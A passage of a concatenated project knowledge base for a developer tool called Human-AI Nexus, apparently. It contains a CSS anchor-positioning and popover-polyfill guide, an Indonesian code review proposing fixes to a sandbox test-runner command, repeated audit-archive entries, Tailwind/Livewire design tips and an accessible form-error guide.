    border-radius: 0 0 .5rem .5rem;
    margin-block-start: 0.25rem;
  }
}
```

## Best practices

- **Prefer logical fallbacks**: Use keywords like `flip-block` and `flip-inline` in `position-try-fallbacks` for simpler queries that handle RTL and different writing modes automatically.
- **Use pseudo-elements for arrows**: Tooltip arrows are purely decorative and are perfect candidates for `::before` or `::after`, which can be styled via anchored container queries without extra DOM.


## Fallback strategies

Anchor position container queries has limited availability.
Supported by: Chrome 143 (Dec 2025) and Edge 143 (Dec 2025).
Unsupported in: Firefox and Safari.

Positioning the arrow based on the applied fallback is a progressive enhancement, and there is not another way of reacting to the fallback position. To hide the arrow in browsers that don't support anchor position container queries, test for CSS support with `@supports (container-type: anchored)`.

```css
@supports (container-type: anchored) {
  .tooltip-content::before {
    content: "▼";
  }
}
```

### Polyfilling the Popover Attribute

Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

To support the `popover` attribute in older browsers, use the `@oddbird/popover-polyfill`.

MANDATORY: Feature detect popover support by checking for the `popover` property on the `HTMLElement` prototype. Conditionally initialize the polyfill only if native support is missing.

**Option 1: Using a package manager**
Install the package (`npm install @oddbird/popover-polyfill`).

```javascript
// MANDATORY: Feature detect 'popover' on HTMLElement.prototype.
if (!('popover' in HTMLElement.prototype)) {
  import('@oddbird/popover-polyfill/fn').then(({ apply }) => {
    apply();
  });
}
```

**Option 2: Manual installation without npm**
If you are not using a package manager, dynamically import the polyfill directly from a CDN (such as unpkg) inside a `<script type="module">`.

```html
<script type="module">
  // MANDATORY: Feature detect 'popover' on HTMLElement.prototype.
  // Conditionally load the popover-polyfill from a CDN only in browsers lacking native support.
  if (!('popover' in HTMLElement.prototype)) {
    import('https://unpkg.com/@oddbird/popover-polyfill@latest/dist/popover-fn.js').then(({ apply }) => {
      apply();
    });
  }
</script>
```

Browsers without support for the Popover API also do not support anchor positioning, so the tooltip will appear in the center of the screen.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_SANDBOX_REVIEW.MD

# 🧪 Analisis & Saran Perbaikan: `nexus sandbox`
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Project:** Human-AI Nexus v3.3.0
> **Tanggal Review:** 15 Mei 2026
> **Fokus:** Command `nexus sandbox` — alur eksekusi, temuan bug, dan saran perbaikan

---

## Cara Kerja `nexus sandbox`

```
nexus sandbox [--section 1-10] [--distill]
       ↓
cli.js  →  agent/main.js  (case 'sandbox')
       ↓
spawn('node', ['tests/TDD/sandbox-master-runner.js', ...args])
       ↓
sandbox-master-runner.js → setup_section[1/2/3].js / setup_dynamic_section.js
       ↓
Untuk setiap project dari 100-projects-data.js:
  NexusEngine.runCycle()
    ├── blueprintApp()         ← Generate TALL stack dari README via Ollama
    ├── audit()                ← Scan dengan 6 specialist agents
    ├── plan()                 ← Susun rencana perbaikan
    ├── execute()              ← Eksekusi perubahan kode
    ├── cleanCodeAndVerify()   ← Cleanup + stability loop 5x
    └── record()               ← Simpan hasil ke memory / HUB
```

---

## Ringkasan Temuan

| # | Prioritas | Masalah | Dampak |
|---|---|---|---|
| 1 | 🔴 Kritis | Tidak ada `.on('error')` dan validasi file runner sebelum `spawn` | Silent crash tanpa pesan jelas ke user |
| 2 | 🔴 Kritis | Stability loop `50 detik × 100 project` = ~83 menit hanya untuk health check | Total waktu sandbox bisa 8+ jam |
| 3 | 🟠 Penting | Port `8001` hardcoded di `cleanCodeAndVerify()` | Gagal jika port sudah dipakai proses lain |
| 4 | 🟠 Penting | Tidak ada abort otomatis jika Ollama offline | 100 project berjalan percuma, hasil kosong semua |
| 5 | 🟡 Sedang | Tidak ada konfirmasi sebelum `--distill` overwrite HUB | Data knowledge bisa tertimpa tanpa sengaja |
| 6 | 🟡 Sedang | Tidak ada progress bar / ETA selama proses berjalan | UX buruk untuk proses yang berjalan sangat lama |

---

## Temuan Detail & Saran Perbaikan

---

### 🔴 Temuan 1 — Tidak Ada Validasi File Runner & Error Handler Sebelum Spawn

**Lokasi:** `agent/main.js` — `case 'sandbox'`

**Kode Bermasalah:**
```javascript
const runnerPath = path.join(__dirname, '..', 'tests', 'TDD', 'sandbox-master-runner.js');
const sandboxArgs = args.slice(1);
const sandboxProc = spawnChild('node', [runnerPath, ...sandboxArgs], { stdio: 'inherit', shell: false });
sandboxProc.on('exit', code => { rl.close(); process.exit(code || 0); });
// ❌ Tidak ada: fs.pathExists(runnerPath) sebelum spawn
// ❌ Tidak ada: sandboxProc.on('error', ...) untuk tangkap kegagalan spawn
```

**Dampak:** Jika `sandbox-master-runner.js` tidak ditemukan (contoh: install bersih tanpa folder `tests/`), proses akan diam-diam exit tanpa pesan error yang membantu user.

**Saran Perbaikan:**
```javascript
case 'sandbox': {
    const { spawn: spawnChild } = require('child_process');
    const fs = require('fs-extra');
    const runnerPath = path.join(__dirname, '..', 'tests', 'TDD', 'sandbox-master-runner.js');

    // ✅ Validasi keberadaan file runner sebelum spawn
    if (!fs.existsSync(runnerPath)) {
        console.error(`❌ Sandbox runner tidak ditemukan: ${runnerPath}`);
        console.error(`   Pastikan folder tests/TDD/ tersedia di instalasi Nexus.`);
        rl.close();
        process.exit(1);
    }

    console.log('\x1b[36m%s\x1b[0m', '🧪 Nexus Sandbox Master Runner: Starting...');
    const sandboxProc = spawnChild('node', [runnerPath, ...sandboxArgs], { stdio: 'inherit', shell: false });

    // ✅ Tangkap error spawn (misal: node tidak ada di PATH)
    sandboxProc.on('error', (err) => {
        console.error(`❌ Gagal menjalankan sandbox: ${err.message}`);
        rl.close();
        process.exit(1);
    });

    sandboxProc.on('exit', code => { rl.close(); process.exit(code || 0); });
    return;
}
```

---

### 🔴 Temuan 2 — Stability Loop Blocking ~50 Detik Per Project × 100 Projects

**Lokasi:** `agent/core/NexusEngine.js` — `cleanCodeAndVerify()`

**Kode Bermasalah:**
```javascript
for (let i = 1; i <= 5; i++) {
    const serveProc = spawn('php', ['artisan', 'serve', '--port=8001'], { cwd: projectPath, shell: true });
    const devProc   = spawn('npm', ['run', 'dev'], { cwd: projectPath, shell: true });

    await new Promise(resolve => setTimeout(resolve, 8000)); // ← tunggu 8 detik flat
    // ... cek status ...
    await new Promise(resolve => setTimeout(resolve, 2000)); // ← cooldown 2 detik flat
}
// Total per project : (8 + 2) × 5 iterasi = 50 detik MINIMUM
// Total 100 projects: 50 × 100 = 5.000 detik = ±83 MENIT hanya untuk stability loop
```

**Dampak:** Untuk 100 project, `nexus sandbox` bisa membutuhkan **8+ jam** hanya dari bagian stability loop — belum termasuk waktu audit, plan, dan execute.

**Saran Perbaikan:**
```javascript
// ✅ Ganti setTimeout flat dengan active polling
async waitForService(url, timeoutMs = 8000) {
    const axios = require('axios');
    const start = Date.now();
    while (Date.now() - start < timeoutMs) {
        try {
            await axios.get(url, { timeout: 500 });
            return true; // ← Langsung lanjut begitu service ready (bisa 1-2 detik)
        } catch (_) {
            await new Promise(r => setTimeout(r, 300)); // polling tiap 300ms
        }
    }
    return false; // timeout
}

// Penggunaan di dalam loop:
const port = await getAvailablePort(8001); // (lihat Temuan 3)
const serveProc = spawn('php', ['artisan', 'serve', `--port=${port}`], { cwd: projectPath, shell: false });
const devProc   = spawn('npm', ['run', 'dev'], { cwd: projectPath, shell: false });

const [serveReady, devReady] = await Promise.all([
    this.waitForService(`http://localhost:${port}`, 8000),
    this.waitForService('http://localhost:5173', 8000) // default Vite port
]);

if (!serveReady || !devReady) {
    serveProc.kill();
    devProc.kill();
    throw new Error(`Stability check failed at iteration ${i} — service tidak respond dalam 8 detik.`);
}
```

> **Estimasi penghematan waktu:** Dari 50 detik/project menjadi rata-rata 5-10 detik/project — sekitar **80% lebih cepat**.

---

### 🟠 Temuan 3 — Port `8001` Hardcoded, Tidak Aman untuk Eksekusi Paralel

**Lokasi:** `agent/core/NexusEngine.js` — `cleanCodeAndVerify()`

**Kode Bermasalah:**
```javascript
// ❌ Port hardcoded — crash jika sudah dipakai
spawn('php', ['artisan', 'serve', '--port=8001'], { cwd: projectPath, shell: true });
```

**Dampak:** Jika dua section sandbox dijalankan bersamaan, atau ada proses lain yang sudah memakai port 8001, stability check akan **selalu gagal** dengan error yang membingungkan.

**Saran Perbaikan:**
```javascript
// ✅ Deteksi port yang tersedia secara dinamis
async getAvailablePort(start = 8001) {
    const net = require('net');
    return new Promise((resolve) => {
        const server = net.createServer();
        server.listen(start, () => {
            server.close(() => resolve(start));
        });
        server.on('error', () => {
            resolve(this.getAvailablePort(start + 1)); // coba port berikutnya
        });
    });
}

// Penggunaan:
const port = await this.getAvailablePort(8001);
const serveProc = spawn('php', ['artisan', 'serve', `--port=${port}`], {
    cwd: projectPath,
    shell: false // ✅ Sekalian perbaiki shell: true → shell: false
});
```

---

### 🟠 Temuan 4 — Tidak Ada Abort Otomatis Jika Ollama Offline

**Lokasi:** `agent/core/NexusEngine.js` — `blueprintApp()`

**Kode Bermasalah:**
```javascript
const response = await LocalIntelligence.generate(prompt, 'generate_architecture');

if (!response) {
    this.log(`❌ LLM failed to generate blueprint.`, 'error');
    return; // ❌ Silent return — sandbox tetap lanjut ke 99 project berikutnya
}
```

**Dampak:** Jika Ollama tidak aktif saat `nexus sandbox` dijalankan, **semua 100 project berjalan tanpa blueprint** — tidak ada peringatan abort, user baru sadar hasilnya kosong setelah berjam-jam menunggu.

**Saran Perbaikan:**
```javascript
// ✅ Hitung failure, abort jika Ollama jelas offline
if (!response) {
    this.metrics.blueprintFailures = (this.metrics.blueprintFailures || 0) + 1;
    this.log(
        `⚠️  Blueprint skipped — LLM tidak merespons. Project: ${path.basename(this.rootPath)}`,
        'warning'
    );

    // Jika 3 project berturut-turut gagal, kemungkinan besar Ollama offline
    if (this.metrics.blueprintFailures >= 3) {
        throw new NexusError(
            'BLUEPRINT',
            '❌ Ollama tampaknya tidak aktif (3 kegagalan berturut-turut). ' +
            'Jalankan `ollama serve` lalu coba kembali.'
        );
    }
    return;
}

// ✅ Reset counter jika berhasil
this.metrics.blueprintFailures = 0;
```

---

### 🟡 Temuan 5 — Tidak Ada Konfirmasi Sebelum `--distill` Overwrite Knowledge HUB

**Lokasi:** `agent/main.js` — alur `nexus sandbox --distill`

**Masalah:**
Dari help text:
```
nexus sandbox --distill   - Run all + distill knowledge to HUB
```
Proses distill di `NexusEngine.distill()` menulis ulang knowledge base HUB. Tidak ada konfirmasi apakah user benar-benar ingin menimpa data yang sudah ada.

**Dampak:** Knowledge HUB yang sudah dikurasi bisa tertimpa hasil sandbox yang belum tentu berkualitas, tanpa ada kesempatan untuk membatalkan.

**Saran Perbaikan:**
```javascript
// Di sandbox-master-runner.js sebelum menjalankan distill
if (sandboxArgs.includes('--distill')) {
    const existingFiles = await fs.readdir(hubPath).catch(() => []);
    if (existingFiles.length > 0) {
        console.log(`\n⚠️  Knowledge HUB saat ini berisi ${existingFiles.length} file.`);
        console.log(`   Flag --distill akan MENIMPA sebagian file tersebut.\n`);

        if (!sandboxArgs.includes('--yes')) {
            const confirm = await ask('Lanjutkan distill ke HUB? (y/n): ');
            if (confirm.toLowerCase() !== 'y') {
                console.log('🚫 Distill dibatalkan.');
                process.exit(0);
            }
        }
    }
}
```

---

### 🟡 Temuan 6 — Tidak Ada Progress Bar / ETA Selama Sandbox Berjalan

**Lokasi:** `tests/TDD/sandbox-master-runner.js` (diasumsikan berdasarkan struktur)

**Masalah:**
Saat `nexus sandbox` berjalan untuk 100 project, user hanya melihat log per-project yang terus scrolling tanpa tahu:
- Sudah di project ke berapa dari 100
- Berapa yang berhasil / gagal
- Estimasi waktu selesai

**Dampak:** UX yang buruk untuk proses yang berjalan 30-60+ menit. User tidak tahu apakah proses berjalan normal atau stuck.

**Saran Perbaikan:**
```javascript
// Di sandbox-master-runner.js — tambahkan progress tracker
const total = projects.length;
let passed = 0;
let failed = 0;
const startTime = Date.now();

for (let i = 0; i < total; i++) {
    const project = projects[i];
    const elapsed  = Math.round((Date.now() - startTime) / 1000);
    const eta      = i > 0 ? Math.round((elapsed / i) * (total - i)) : '?';
    const pct      = Math.round(((i + 1) / total) * 100);
    const bar      = '█'.repeat(Math.floor(pct / 5)) + '░'.repeat(20 - Math.floor(pct / 5));

    process.stdout.write(
        `\r[${bar}] ${pct}% | ` +
        `✅ ${passed} ❌ ${failed} | ` +
        `Project ${i + 1}/${total}: ${project.name.padEnd(30)} | ETA: ${eta}s    `
    );

    try {
        await runProjectCycle(project);
        passed++;
    } catch (e) {
        failed++;
        // Log ke file tanpa interrupt progress bar
        await fs.appendFile('logs/sandbox-errors.log', `[${project.name}] ${e.message}\n`);
    }
}

// ✅ Summary setelah selesai
console.log(`\n\n🏁 Sandbox Selesai: ${passed} berhasil, ${failed} gagal dari ${total} project.`);
console.log(`⏱  Total waktu: ${Math.round((Date.now() - startTime) / 1000)}s`);
```

---

## Checklist Perbaikan `nexus sandbox`

### Segera (Hari Ini)
- [ ] Tambahkan `fs.existsSync(runnerPath)` sebelum `spawn` di `main.js`
- [ ] Tambahkan `sandboxProc.on('error', ...)` untuk tangkap kegagalan spawn

### Sprint Ini
- [ ] Ganti `setTimeout(8000)` flat dengan active polling di `cleanCodeAndVerify()`
- [ ] Ganti port `8001` hardcoded dengan `getAvailablePort()` dinamis
- [ ] Ubah `shell: true` → `shell: false` di semua `spawn` dalam `cleanCodeAndVerify()`
- [ ] Tambahkan abort logic jika `blueprintFailures >= 3` (Ollama offline)

### Sprint Berikutnya
- [ ] Tambahkan konfirmasi interaktif sebelum `--distill` overwrite HUB
- [ ] Implementasi progress bar + ETA di `sandbox-master-runner.js`
- [ ] Tambahkan `logs/sandbox-errors.log` untuk capture kegagalan per-project

---

## Estimasi Dampak Setelah Perbaikan

| Aspek | Sebelum | Sesudah |
|---|---|---|
| **Waktu stability loop** (100 project) | ~83 menit | ~8-15 menit |
| **Deteksi Ollama offline** | Setelah semua selesai | Project ke-3 |
| **Kejelasan error** | Silent crash | Pesan jelas + exit code |
| **Risiko overwrite HUB** | Tidak ada perlindungan | Konfirmasi wajib |
| **Visibilitas progress** | Log scrolling tak terbaca | Progress bar + ETA |


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_STABILIZATION_RECORD.MD

# Execution Record: System Stabilization Cycle
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Date**: 2026-05-10
**Audit Ref**: AUDIT-STABILIZATION-001

## 📊 Summary of Actions

### 1. NexusEngine.js Refactor
- **Status**: SUCCESS
- **Changes**:
    - Deduplicated methods `getSemanticTags` and `globRecursive`.
    - Fixed `this.nexusPath` -> `this.nexusDataPath` (resolved potential runtime crash).
    - Consolidated 8 redundant path assignments in the constructor.
    - Improved `globRecursive` to handle Windows path separators natively.

### 2. Git Hygiene
- **Status**: SUCCESS
- **Changes**:
    - Updated `.gitignore` to exclude:
        - `knowledge/*_SESSION_HISTORY_ARCHIVE.md`
        - `knowledge/*_LOG.md`
        - `memory/distilled/performance/*.MD`
        - `memory/operational/records/*.json`

### 3. Workflow Consolidation
- **Status**: SUCCESS
- **Action**: Executed `scratch/sync_workflows.js`.
- **Result**: Migrated all unique workflows to `agent/workflows/`. This directory is now the official Source of Truth. Redundant folders are preserved but marked as secondary/distribution mirrors.

### 4. Test Expansion
- **Status**: SCAFFOLDED
- **Result**: Created 3 new test files in `tests/TDD/`:
    - `MemoryGovernor.test.js`
    - `Orchestrator.test.js`
    - `Machinist.test.js`

## 🛡️ System Integrity Verification
- **Engine Load**: PASS
- **Path Resolution**: PASS (Verified dynamic mapping)
- **Method Collision**: RESOLVED

---
**Verification Signature**: [Nexus Engine | Antigravity AI]


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, vcs]

### 📘 KNOWLEDGE: NEXUS_TAILWIND_LAYOUT_INTEGRITY_CHECKER_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144589211 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 9
- **Audit ID**: AUDIT-1778144589211-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144589211-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144589211-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144589211-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144589211-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144589211-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144589716 | **Audit Ref**: AUDIT-1778144589211 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144894556 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 7
- **Audit ID**: AUDIT-1778144894556-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144894556-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144894556-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144894556-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144894556-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144894556-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144894929 | **Audit Ref**: AUDIT-1778144894556 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144938202 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 7
- **Audit ID**: AUDIT-1778144938202-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144938202-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144938202-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144938202-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144938202-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778144938202-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144938583 | **Audit Ref**: AUDIT-1778144938202 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145140847 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 7
- **Audit ID**: AUDIT-1778145140847-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145140847-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145140847-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145140847-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145140847-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145140847-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145141281 | **Audit Ref**: AUDIT-1778145140847 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145257365 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 7
- **Audit ID**: AUDIT-1778145257365-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145257365-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145257365-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145257365-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145257365-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145257365-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145257790 | **Audit Ref**: AUDIT-1778145257365 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145316816 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 7
- **Audit ID**: AUDIT-1778145316816-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145316816-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145316816-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145316816-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145316816-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1
- **Audit ID**: AUDIT-1778145316816-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\tailwind_layout_integrity_checker | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145317204 | **Audit Ref**: AUDIT-1778145316816 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, tailwind_layout_integrity_checker]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_UI.MD

> **VERSION**: v1 | **Last Updated**: 13/05/2026


## 🎓 UI WISDOM DISTILLATION [v1557] - 13/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 💎 NEXUS WISDOM: TALL STACK EVOLUTION PROTOCOL (v2.1)
> **Origin**: `ui-ux/NEXUS_TALL_EVOLUTION_WISDOM.md` | **Distilled At**: 13/05/2026

#### 💡 Content Summary:
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui, design, frontend, blade, livewire, laravel, architecture]


This wisdom was distilled from the mass evolution of 21 sandbox projects into high-fidelity TALL stack applications.


- **Card Geometry**: Use `rounded-[40px]` for main containers to create a premium, modern feel.
- **Glassmorphism**: Combine `bg-white/80` or `bg-slate-900/80` with `backdrop-blur-xl` for overlays.
- **Color Depth**: Use HSL-curated gradients (e.g., `from-indigo-500 to-purple-600`) instead of flat colors.
- **Micro-Animations**: Always add `hover:scale-[1.02] transition-all duration-300` to interactive cards.


- **Model Integrity**: Ensure every Livewire component is backed by a robust Eloquent model.
- **Fillable Safety**: Always define `protected $fillable` to prevent mass-assignment vulnerabilities.
- **Table Explicitly**: Set `protected $table = 'name'` in Models to avoid naming collisions with auto-generated tables.


- **Blade Layouts**: Use `@livewireStyles` and `@livewireScripts` in the base layout.
- **Alpine Sync**: Use `wire:model` for backend sync and `x-data` for local UI state.
- **Tailwind JIT**: Leverage arbitrary values like `bg-[#4F46E5]` when...

#### 🔗 Traceability:
- [Source Context](NEXUS_TALL_EVOLUTION_WISDOM.md)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---

### 📘 KNOWLEDGE: NEXUS_TALL_EVOLUTION_WISDOM.MD

# 💎 NEXUS WISDOM: TALL STACK EVOLUTION PROTOCOL (v2.1)

> **METADATA (NEXUS SEMANTIC TAGS)**: [ui, design, frontend, blade, livewire, laravel, architecture]

## 🎯 Context
This wisdom was distilled from the mass evolution of 21 sandbox projects into high-fidelity TALL stack applications.

## 🛠 Core Patterns (Gold Nuggets)

### 1. Ultra-Modern UI Design
- **Card Geometry**: Use `rounded-[40px]` for main containers to create a premium, modern feel.
- **Glassmorphism**: Combine `bg-white/80` or `bg-slate-900/80` with `backdrop-blur-xl` for overlays.
- **Color Depth**: Use HSL-curated gradients (e.g., `from-indigo-500 to-purple-600`) instead of flat colors.
- **Micro-Animations**: Always add `hover:scale-[1.02] transition-all duration-300` to interactive cards.

### 2. Database-Driven Components
- **Model Integrity**: Ensure every Livewire component is backed by a robust Eloquent model.
- **Fillable Safety**: Always define `protected $fillable` to prevent mass-assignment vulnerabilities.
- **Table Explicitly**: Set `protected $table = 'name'` in Models to avoid naming collisions with auto-generated tables.

### 3. TALL Integration
- **Blade Layouts**: Use `@livewireStyles` and `@livewireScripts` in the base layout.
- **Alpine Sync**: Use `wire:model` for backend sync and `x-data` for local UI state.
- **Tailwind JIT**: Leverage arbitrary values like `bg-[#4F46E5]` when specific brand colors are required.

## 📝 Writing Law
When generating new TALL stack projects, agents must prioritize "Visual Excellence" as a functional requirement, not just an option.

---
*Status: Institutional Wisdom | Distilled from Sandbox Batch v2.1*

### 📘 KNOWLEDGE: NEXUS_ACCESSIBLE-ERROR-ANNOUNCEMENT.MD

# Accessible Error Announcement
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## The Problem
Standard HTML5 validation provides visual feedback (via `:invalid` or `:user-invalid`), but it doesn't automatically synchronize with accessibility attributes like `aria-invalid`. 

If you use standard `:invalid` styling, screen readers might announce "Invalid entry" the moment a user tabs into a required field that is currently empty. This creates a disruptive experience for users using assistive technologies, as the error is announced before interaction has occurred.

## The Solution
We want the *programmatic* state (`aria-invalid="true"`) to be applied **at the exact same moment** the *visual* state (`:user-invalid`) applies. Since `:user-invalid` relies on the browser's internal "user-interacted" flag, we can use JavaScript to check that this selector matches during standard interaction events.

See [MDN aria-invalid](https://developer.mozilla.org/en-US/docs/Web/Accessibility/ARIA/Reference/Attributes/aria-invalid) for more details.

### Implementation Strategy

1.  **Visual Layer**: Use CSS `:user-invalid` to show borders/icons.
2.  **Accessibility Layer**: Use `aria-invalid` and `aria-errormessage` to communicate state to Assistive Technology (AT).
3.  **Bridge Visual & Accessibility Layer**: Create a lightweight JavaScript utility that listens for `blur` and `input` events, checks if the element matches `:user-invalid`, and updates the ARIA attributes accordingly.

## Implementation Guide

### 1. HTML Structure
Link your input to its error message using `aria-errormessage` (or `aria-describedby` for broader support).

```html
<form>
  <div class="field">
    <label for="email">Email</label>
    <input 
      type="email" 
      id="email" 
      required 
      aria-errormessage="email-error"
    >
    <span id="email-error" class="error-msg">
      Please enter a valid email address.
    </span>
  </div>
</form>
```

### 2. CSS
Control the visibility of the error message using the native pseudo-class `:user-invalid`.

```css
.error-msg {
  display: none;
  color: #d93025;
}

/* Show error message when input is user-invalid */
input:user-invalid ~ .error-msg {
  display: block;
}

/* Optional: Visual cues on the input itself */
input:user-invalid {
